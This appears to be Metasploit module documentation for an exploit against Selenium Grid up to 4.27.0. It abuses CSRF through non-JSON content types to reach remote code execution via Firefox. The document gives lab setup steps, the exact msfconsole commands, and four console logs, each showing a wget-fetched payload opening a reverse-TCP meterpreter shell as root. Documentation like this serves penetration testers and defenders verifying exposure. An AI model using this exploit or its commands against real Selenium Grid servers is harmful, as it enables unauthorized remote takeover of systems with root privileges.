 ## Vulnerable Application

Selenium Server (Grid) <= 4.27.0 (latest version at the time of this writing)
allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.
At least, the number of sessions must be fewer than maxSessions for the exploit to succeed.

The vulnerability affects:

    * Selenium Server (Grid) <= 4.27.0 (latest version at the time of this writing)

This module was successfully tested on:

    * selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
    * selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04


### Installation

1. `docker pull selenium/standalone-firefox:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-firefox:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 75 seconds.


## Scenarios
### selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 24.04
```
msf6 > use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   TIMEOUT  75               yes       Timeout for exploit (seconds)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      NnnZmAGfjJoa     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4445
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected, which is vulnerable.
[*] Started session (3191e005-977b-40c9-8c70-7e2f4ef4f922).
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:43182) at 2025-01-04 10:01:09 +0900
[*] Failed to delete the session (3191e005-977b-40c9-8c70-7e2f4ef4f922). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4446
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Started session (dc849fa9-0b61-4862-8766-21f1cb47c827).
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:54410) at 2025-01-04 10:03:37 +0900
[*] Failed to delete the session (dc849fa9-0b61-4862-8766-21f1cb47c827). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Ubuntu 18.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4447
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Started session (af8d64bc-cdf6-4a03-8706-e90bddbee1c2).
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.16:40680) at 2025-01-04 10:05:44 +0900
[*] Failed to delete the session (af8d64bc-cdf6-4a03-8706-e90bddbee1c2). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.4
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4448
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected and ready.
[*] Started session (1657b5ac-c514-431f-8c83-761c14012869).
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.16:44868) at 2025-01-04 10:10:38 +0900
[*] Failed to delete the session (1657b5ac-c514-431f-8c83-761c14012869). You may need to wait for the session to expire (default: 5 minutes) or manually delete the session for the next exploit to succeed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.5
OS           : Ubuntu 24.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
